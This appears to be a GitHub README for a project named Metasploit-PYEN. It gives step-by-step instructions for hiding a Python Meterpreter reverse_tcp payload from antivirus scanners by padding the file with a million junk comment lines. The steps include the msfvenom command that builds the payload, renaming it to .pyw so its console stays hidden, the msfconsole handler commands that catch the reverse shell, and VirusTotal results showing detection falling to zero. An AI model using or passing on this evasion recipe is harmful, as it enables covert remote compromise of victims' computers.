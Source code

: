 ## Metasploit-PYEN
<strong><i>A new method of testing the metasploit payload cryptography and its use for cyber experts.</i></strong>
__________________________________________________________________________________________
### [+] Encryption test result :
### [>] From :
![Pic-1](https://raw.githubusercontent.com/AbdulazizDXT/Metasploit-PYEN/main/Pic-1.png)
- Hash : ```0c0ba1c307f2fc0d8de806d406e0dba6d1ee47b9391ad282c4a651a120e3f918```
- -------------------------------------------------------------------------------------
### [>] To :
![Pic-2](https://raw.githubusercontent.com/AbdulazizDXT/Metasploit-PYEN/main/Pic-2.png)
- Hash : ```f5698ec0516a03e9254d802b4ec232bc88ac0381965e64d2037fe1991db5aad3```
- -------------------------------------------------------------------------------------
## The changes :
- It was previously discovered that it contained JavaScript code, and now it has been changed to a text file.
- In VirusTotal statistics, the payload file got (7/60) and after coding, he obtained (0/59).
- The change is to add a million lines of text from this and in the middle of these lines the Python code for the metasploit connection information.
- The Text : ``` #;lwqnbv4;o34vipn34[2qoiqqb54[noi2nb34o[gn3[2ioernvf[o34bgi32olnvcejkvn]]]]] ```
- like this picture :

![Pic-3](https://raw.githubusercontent.com/AbdulazizDXT/Metasploit-PYEN/main/Pic-3.png)
- -------------------------------------------------------------------------------------
## [+] How to create and connect to the payload :
- Use <strong><i>Msfvenom</strong></i> to create a Python payload.
- In <strong><i>root</strong></i> user write this code : ```msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP address> LPORT=<Port> -o > Payload.py```.
- Change Output file from ```Payload.py``` to ```Payload.pyw``` --> To Hide the console.
- Add a million lines in the file from this code ```#;lwqnbv4;o34vipn34[2qoiqqb54[noi2nb34o[gn3[2ioernvf[o34bgi32olnvcejkvn]]]]]``` Then put the python payload code in the middle of the million lines in the payload.
- Save the file, now test it in VirusTotal and test it on your device to verify the file.
### [+] Connection test :
- Run <strong><i>Msfconsole</strong></i> tool.
- Put these commands in the terminal of the metsploit tool, and as you know, it will receive your IP address and port.
- Commands :
```
use exploit/multi/handler

set payload python/meterpreter/reverse_tcp

set LHOST <Your IP address>

set LPORT <Your Port>
```
# To start Exploit type :

```exploit```

- Then the connection session opens without problems.

[+] Supported ME :

BTC : ```bc1qt5wkdh4w6xustsnfaanll4f464t75vncml29cx```












